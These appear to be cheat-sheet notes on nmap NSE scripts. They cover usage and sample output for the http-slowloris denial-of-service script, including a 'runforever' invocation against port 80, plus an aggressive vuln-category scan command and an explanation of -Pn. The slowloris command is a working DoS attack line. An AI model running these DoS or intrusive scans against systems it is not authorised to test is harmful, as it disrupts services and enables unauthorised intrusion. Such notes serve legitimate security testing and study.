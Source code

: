 `nmap --script=http-slowloris-check -p80,8080 --script-trace -d -vv <host>`


`less http-slowloris.nse`

      ---
      -- @usage
      -- nmap --script http-slowloris --max-parallelism 400  <target>
      --
      -- @args http-slowloris.runforever Specify that the script should continue the
      -- attack forever. Defaults to false.
      -- @args http-slowloris.send_interval Time to wait before sending new http header datas
      -- in order to maintain the connection. Defaults to 100 seconds.
      -- @args http-slowloris.timelimit Specify maximum run time for DoS attack (30
      -- minutes default).
      --
      -- @output
      -- PORT     STATE SERVICE REASON  VERSION
      -- 80/tcp   open  http    syn-ack Apache httpd 2.2.20 ((Ubuntu))
      -- | http-slowloris:
      -- |   Vulnerable:
      -- |   the DoS attack took +2m22s
      -- |   with 501 concurrent connections
      -- |_  and 441 sent queries
## **Usage**

`nmap --script=http-slowloris --max-parallelism 400 --script-args="http-slowloris.runforever=true" -p80 --script-trace -d -vvv`

    -d, --script-trace, -vvv, http-slowloris.runforever=true are all optional. Port can be different depending on webserver, etc
----------------------------------
## #3 Items I find Most Helpful

You can run entire categories. The catergoies are as follow...

- vuln
- discovery
- dos
- exploit
- auth
- brute
- default(-sC will run that)
- safe
- version
- malware

All of which can be ran as a whole. So for example, I find the vuln scan extremely helpful.

`nmap --script=vuln --script-trace -A --open -sV -d -vvv -sC <host>`

Let's break down the above command. We are running the entire vuln category. --script-trace is going to show us what's going on and help debug if needed, same with -d and -vvv. -sC is adding the default nmap scripts. -sV is nmap's version scan. --open is only going to print open ports. -A is a aggressive scan. -F is for a fast scan.
----------------------------------
The option -Pn in nmap stands for "no ping." It tells nmap to skip the host discovery stage and proceed to a full port scan of the target hosts, assuming that they are all up. This is useful when you want to scan targets that block or respond to the normal nmap host discovery probes, for example, because of firewalls, intrusion prevention systems, or just because they are heavily filtered.
----------------------------------

